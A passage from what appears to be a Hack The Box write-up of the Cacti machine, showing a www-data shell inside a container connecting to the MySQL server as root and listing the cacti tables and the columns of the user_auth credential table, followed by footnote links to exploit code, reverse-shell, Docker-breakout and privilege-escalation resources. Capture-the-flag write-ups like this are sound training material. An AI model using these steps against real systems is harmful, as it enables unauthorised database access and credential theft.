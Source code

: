 ```bash
www-data@50bca5e748b0:/var/www/html$ wget db
--2024-01-14 17:42:05--  http://db/
Resolving db (db)... 172.19.0.2
Connecting to db (db)|172.19.0.2|:80... failed: Connection refused.
```

It is a MySQL server so I didn't expect it to successfully perform a wget but we see the IP associated to it. Let's connect to the MySQL server selecting the cacti database. 

```bash
www-data@50bca5e748b0:/var/www/html$ mysql -u root -proot -h db cacti
MySQL [cacti]>  show tables;
--- SNIP ---
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
111 rows in set (0.001 sec)
```

The table we most likely care about in this data is the user_auth table. 

```bash
MySQL [cacti]> show columns from user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
| realm                  | mediumint(8)          | NO   | MUL | 0       |                |
| full_name              | varchar(100)          | YES  |     | 0       |                |
| email_address          | varchar(128)          | YES  |     | NULL    |                |
| must_change_password   | char(2)               | YES  |     | NULL    |                |
| password_change        | char(2)               | YES  |     | on      |                |
| show_tree              | char(2)               | YES  |     | on      |                |
| show_list              | char(2)               | YES  |     | on      |                |
| show_preview           | char(2)               | NO   |     | on      |                |
| graph_settings         | char(2)               | YES  |     | NULL    |                |
| login_opts             | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_graphs          | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_trees           | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_hosts           | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_graph_templates | tinyint(3) unsigned   | NO   |     | 1       |                |
| enabled                | char(2)               | NO   | MUL | on      |                |
| lastchange             | int(11)               | NO   |     | -1      |                |
| lastlogin              | int(11)               | NO   |     | -1      |                |
| password_history       | varchar(4096)         | NO   |     | -1      |                |
| locked                 | varchar(3)            | NO   |     |         |                |
| failed_attempts        | int(5)                | NO   |     | 0       |                |
| lastfail               | int(10) unsigned      | NO   |     | 0       |                |
| reset_perms            | int(10) unsigned      | NO   |     | 0       |                |
+------------------------+-----------------------+------+-----+---------+----------------+

```

[^htb-link]: <https://app.hackthebox.com/machines/539>
[^cve]: <https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit>
[^cve-2022-46169]: <https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^docker-breakout]: <https://juggernaut-sec.com/docker-breakout-lpe/#Confirming_we_are_in_a_Docker_Container>
[^hashcat]: <https://hashcat.net/wiki/doku.php?id=example_hashes>
[^cve-2021-41091]: <https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/capsh/>